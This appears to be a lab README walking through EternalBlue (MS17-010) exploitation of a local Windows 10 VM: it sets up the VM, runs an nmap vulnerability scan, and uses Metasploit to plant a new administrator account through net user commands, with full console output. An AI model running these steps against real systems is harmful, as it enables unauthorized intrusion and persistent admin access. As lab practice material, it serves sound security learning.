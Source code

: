 # EternalBlue POC

## Setup

Latest Win10 VM from [here](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/):
Password (qwerty/azerty) : Pqsszàrd1/Passw0rd!

*This VM is patched against smb-vuln-ms17-010.*

---

Use a vulnerable Windows 10 Pro 10240 x64 ISO to create the VM.

**VirtualBox Network setup** : 
File>Gestionnaire de réseau hôte>Create a new host-only network
Network>Réseau privé hôte

**Guest** :
Search 'Windows features' and activate SMBv1.
Open file explorer, select network and activate the network discovery.
Use `ipconfig` to get the guest IP.

## Scan

Check for vulnerabilities with `nmap`.

- `-O`: OS discovery,
- `-sV`: determine service/version info on open ports,
- `-sC`: default script scan,

```bash
> nmap -Pn -n -sV --script vuln 192.168.56.102
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-01 11:39 CET
Nmap scan report for 192.168.56.102
Host is up (0.0037s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DESKTOP-GIK88U0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.22 seconds
```

```bash
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set rhosts
set rhosts  
msf6 auxiliary(scanner/smb/smb_version) > set rhosts 192.168.56.102
rhosts => 192.168.56.102
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.56.102:445    - SMB Detected (versions:1, 2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:) (encryption capabilities:AES-128-CCM) (signatures:optional) (uptime:13m 20s) (guid:{82aa542f-6812-4228-9f14-30fbf59f0ab1}) (authentication domain:WIN-DO0J5EDLGLU)
[+] 192.168.56.102:445    -   Host is running Windows 10 Pro (build:10240) (name:WIN-DO0J5EDLGLU) (workgroup:WORKGROUP)
[*] 192.168.56.102:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Exploitation

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue                  
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.56.102
rhosts => 192.168.56.102
msf6 exploit(windows/smb/ms17_010_eternalblue) > set SMBPass password
SMBPass => password
msf6 exploit(windows/smb/ms17_010_eternalblue) > set SMBUser Test
SMBUser => Test
# no shell with windows/x64/meterpreter/reverse_tcp, create a new SMB user instead
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/exec
payload => windows/x64/exec
msf6 exploit(windows/smb/ms17_010_eternalblue) > set cmd net user /add NewAdmin root
cmd => net user /add NewAdmin root

msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
[*] Started reverse TCP handler on 192.168.0.21:4444 
[*] 192.168.56.102:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.56.102:445    - Host is likely VULNERABLE to MS17-010! - Windows 10 Pro 10240 x64 (64-bit)
[*] 192.168.56.102:445    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.56.102:445 - The target is vulnerable.
[*] 192.168.56.102:445 - shellcode size: 1283
[*] 192.168.56.102:445 - numGroomConn: 12
[*] 192.168.56.102:445 - Target OS: Windows 10 Pro 10240
[+] 192.168.56.102:445 - got good NT Trans response
[+] 192.168.56.102:445 - got good NT Trans response
[+] 192.168.56.102:445 - SMB1 session setup allocate nonpaged pool success
[+] 192.168.56.102:445 - SMB1 session setup allocate nonpaged pool success
[+] 192.168.56.102:445 - good response status for nx: INVALID_PARAMETER
[+] 192.168.56.102:445 - good response status for nx: INVALID_PARAMETER
[*] Exploit completed, but no session was created.
# Check that the new SMB user was created
msf6 exploit(windows/smb/ms17_010_eternalblue) > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 192.168.56.102
rhosts => 192.168.56.102
msf6 auxiliary(scanner/smb/smb_login) > set SMBUser NewAdmin
SMBUser => NewAdmin
msf6 auxiliary(scanner/smb/smb_login) > set SMBPass root
SMBPass => root
msf6 auxiliary(scanner/smb/smb_login) > run
[*] 192.168.56.102:445    - 192.168.56.102:445 - Starting SMB login bruteforce
[+] 192.168.56.102:445    - 192.168.56.102:445 - Success: '.\NewAdmin:root'
[*] 192.168.56.102:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
# Escalate privilege on our new user
msf6 exploit(windows/smb/ms17_010_eternalblue) > set cmd net localgroup /add administrators NewAdmin 
cmd => net localgroup /add administrators NewAdmin
```

- [Windows 10 exploit informations](https://github.com/3ndG4me/AutoBlue-MS17-010/blob/master/eternalblue_exploit10.py)
- [Adjust the remote UAC](https://github.com/SecureAuthCorp/impacket/issues/481#issuecomment-411884539)
- [EternalBlue writeup](https://redteamzone.com/EternalBlue/)
- [SMB remote connection](https://www.hackingarticles.in/multiple-ways-to-connect-remote-pc-using-smb-port/)
- [Manual exploitation](https://root4loot.com/post/eternalblue_manual_exploit/)
